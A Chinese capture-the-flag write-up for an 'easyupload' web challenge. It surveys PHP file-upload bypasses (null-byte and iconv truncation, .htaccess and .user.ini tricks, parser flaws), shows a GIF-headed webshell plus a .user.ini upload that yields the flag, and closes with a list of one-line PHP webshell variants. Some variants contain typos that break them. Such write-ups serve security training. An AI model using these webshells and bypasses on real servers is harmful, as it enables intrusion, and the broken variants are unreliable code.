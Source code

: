 # 题目：easyupload

[![p9BFZ6O.md.png](https://s1.ax1x.com/2023/05/09/p9BFZ6O.md.png)](https://imgse.com/i/p9BFZ6O)

[![p9BFa7j.md.png](https://s1.ax1x.com/2023/05/09/p9BFa7j.md.png)](https://imgse.com/i/p9BFa7j)

打开网页，发现是文件上传的问题，大致思路可以确定：绕过对文件的检测，再执行我们的木马文件获取信息；

## 文件上传漏洞总结

+ 基础文件上传漏洞

  - PHP文件上传通常使用`move_upload_file`配合`$_FILES`变量实现；

    `move_upload_file(file, newloc)`：`file`为需要移动的文件（需要是`$_FILES`类型），`newloc`为文件存储的位置；

  - 当PHP代码没有对提交的`$_FILES`进行限制时，可以上传恶意PHP脚本文件；

+ 00截断

  - 00截断绕过上传限制适用的场景为：后端先获取用户上传文件的文件名，如`test.php\00.jpg`，再根据文件名获得文件的实际后缀`jpg`；通过后缀的白名单校验后，最终在保存文件时发生截断，实现上传的文件为`test.php`；**实际PHP使用`$_FILES`实现文件上传时并不存在00截断绕过上传限制问题**，因为PHP在注册`$_FILES`全局变量时已经产生了截断。上传文件名为`test.php\00.jpg`的文件，而注册到`$_FILES['name']`的变量值为`test.php`，根据该值得到的后缀为`php`，因此无法通过后缀的白名单校验；

+ 转化字符集造成的截断

  - PHP在实现字符集转化时通常使用`iconv()`函数

    `iconv(fencode, tencode, str)`：将`str`按照`fencode`编码解释后，转化为`tencode`编码格式并返回；

  - UTF-8在单字节时允许的字符范围（十六进制）为`0x00~0x7F`，如果字符的十六进制不在范围内，则会从该字符处截断直接返回；

    PHP版本低于5.4时会产生上述问题，`version>5.4`则返回`false`；

  + 转换字符集造成的截断在绕过上传限制中适用的场景为，先在后端获取上传的文件后缀，经过后缀**白名单**判断后，如果有对文件名进行字符集转换操作，那么可能出现安全问题；例如如下后端检测

    `strrchr(str, char)`：在`str`字符串中查找第一个出现`char`字符的位置，并返回从`char`开始（包括 `char`）到结尾的子字符串；

    [![p9B2Ac4.md.png](https://s1.ax1x.com/2023/05/09/p9B2Ac4.md.png)](https://imgse.com/i/p9B2Ac4)

    我们可以通过上传文件名`test.php\x99.jpg`，后端处理后的`$ext=php\x99.jpg`，白名单可以通过，在处理`iconv()`函数时发生异常`$name='test.php\x99.jpg'`，产生截断，最终上传的文件名为`test.php`；

+ 文件后缀黑名单绕过

  + 黑名单校验是创建一个黑名单列表，判断文件后缀名是否存在于黑名单内，实现过滤；

  + PHP常见的可执行后缀名

  ```
  php
  php3
  phtml
  pht
  #大小写绕过
  环境为Windows可以尝试
  php
  php: :$DATA
  php.
  ```

  ​	可以采用重命名后缀的方式绕过；

  - 当重命名失效时，黑名单中没有`.htaccess .user.ini`，可以通过上传`.htaccess .user.ini`配置文件实现绕过；

    * `.htaccess`：是Apache分布式配置文件的默认名称，`.htaccess`文件可以覆盖主配置文件的指令；

       通过上传`.htaccess`文件配置`Files`用PHP解析其他类型的文件，文件内容如下：

      ```
      <Files "test.jpg">
      	SetHandler application/x-httpd-php
      </Files>
      ```

    * `.user.ini`：PHP文件执行时，除了加载`php.ini`还会扫描其他的INI文件，可以通过插入`.user.ini`文件来更改解析规则；

      上传`.user.ini`文件的内容如下：

      ```
      auto_prepend_file=test.jpg
      ```

      `auto_prepend_file`：指定一个文件，在主文件解析前解析它；

      不过`.user.ini`也存在很大的局限性，只有在当前目录下有PHP文件被执行时，才会加载`.user.ini`文件，但是上传目录通常不会有PHP文件（需要我们伪造）；

+ 文件后缀白名单绕过

  - 白名单检测通常比黑名单更为安全

  - Nginx解析漏洞：先上传`test.jpg`文件，再访问`test.jpg/1.php`，由于`1.php`本身不存在，则会去掉`\`及后续内容，继续判断`test.jpg`是否存在，若存在会按照PHP解析该文件，从而实现木马注入；
  - 多后缀名绕过：在Apache中支持单个文件有多个后缀，解析过程是从最右边开始识别，如果后缀不存在对应的解析程序则会继续往后识别。先上传`test.php.jpg`文件再重命名为`test.php.xxx`，由于无法解析`.xxx`后缀名，那么就会继续识别`.php`，从而实现执行PHP代码；

## 解题过程

+ 我们先构造一个`test.gif`文件试上传，内容为：

  ```
  <?php eval($_POST['cmd']);?>
  ```

  [![p9BfqVs.md.png](https://s1.ax1x.com/2023/05/09/p9BfqVs.md.png)](https://imgse.com/i/p9BfqVs)

  [![p9BfvGV.md.png](https://s1.ax1x.com/2023/05/09/p9BfvGV.md.png)](https://imgse.com/i/p9BfvGV)

  修改为`php`后缀也无法上传成功，都提示文件有点奇怪，说明可能是既检测了后缀名，也检测了文件的内容；

  尝试使用PHP其他后缀名后发现均被过滤了，说明不能通过后缀名来上传木马文件；

+ 可能后端对是否是图片文件也进行了内容检测，我们需要在木马中加上`GIF89a`文件头，绕过文件内容检测；

  [![p9BhgQU.md.png](https://s1.ax1x.com/2023/05/09/p9BhgQU.md.png)](https://imgse.com/i/p9BhgQU)

  发现依然被拒绝了，说明不仅仅检测了文件头内容，还过滤了字符串`php`；

  修改上传内容为：

  ```
  GIF89a
  <?= eval($_POST['cmd']);?>
  ```

  发现上传成功且路径为：`uploads/test.gif`；

  [![p9BIqyT.md.png](https://s1.ax1x.com/2023/05/09/p9BIqyT.md.png)](https://imgse.com/i/p9BIqyT)

+ 综上分析，我们可以通过手动添加文件头+一句话木马上传恶意脚本，但是却无法直接执行，因为当我们访问`test.gif`时服务器不会将它当做PHP文件解析；

  - 尝试上传`.htaccess`文件肯定是不行的，因为它的文件内容如下：

    ```
    GIF89a
    <Files "test.gif">
    	SetHandler application/x-httpd-php
    </Files>
    ```

    一定包含了`php`字符串，会被过滤掉；

  - 尝试上传`.user.ini`文件，文件内容如下：

    ```
    GIF89a
    auto_prepend_file=test.gif
    ```

    [![p9Boekd.md.png](https://s1.ax1x.com/2023/05/09/p9Boekd.md.png)](https://imgse.com/i/p9Boekd)

    上传成功，但是`.user.ini`被加载的条件是当前目录下有PHP文件；

    浏览器界面按F12，观看数据包传递信息，发现uploads/index.php，正好有一个PHP文件，使用蚁剑连接工具，获取目录；

    [![p9Bo6AJ.md.png](https://s1.ax1x.com/2023/05/09/p9Bo6AJ.md.png)](https://imgse.com/i/p9Bo6AJ)

    [![p9BTAg0.md.png](https://s1.ax1x.com/2023/05/09/p9BTAg0.md.png)](https://imgse.com/i/p9BTAg0)

    在根目录下找到flag文件；

    [![p9BTJKK.md.png](https://s1.ax1x.com/2023/05/09/p9BTJKK.md.png)](https://imgse.com/i/p9BTJKK)

### 一句话木马总结

+ 首先使用`<?php phpinfo();?>`进行测试，如果能成功上传说明没有对字符串`php`进行过滤；

+ 如果无法上传说明对`php`字符串进行了过滤，绕过方式如下：

  ```php
  <?=eval($_POST['cmd']);?>
  ```

  `<?= ?>`：`=`表示`php echo`，实际上的php代码是：

  ```
  <?php echo eval($_POST['cmd']);?>
  ```

如果其他字符串被过滤，可以采用以下一句话木马尝试：

```php
<?php eval($_POST[cmd]) ?>

<?php @eval($_POST['cmd']);?>

<?php assert($_REQUEST["a"]); ?>

<?php func=create_function('',$_POST['a']); func();?>

<?php
    $func = $_POST['a'];
    $arr = array($_POST['b']);
    news = array_map($func, $arr);
?>

<?php call_user_func(assert,$_GET['a']);?>

<?php $arr = array_filert($_GET['func'],array($_GET['a']));?>

<?php $_GET['func']($_GET['a']);?>
    
#$_REQUEST, $_GET, $_POST均可尝试
#当‘php’被过滤时，使用'<?= ?>'，需要调整对应的代码
```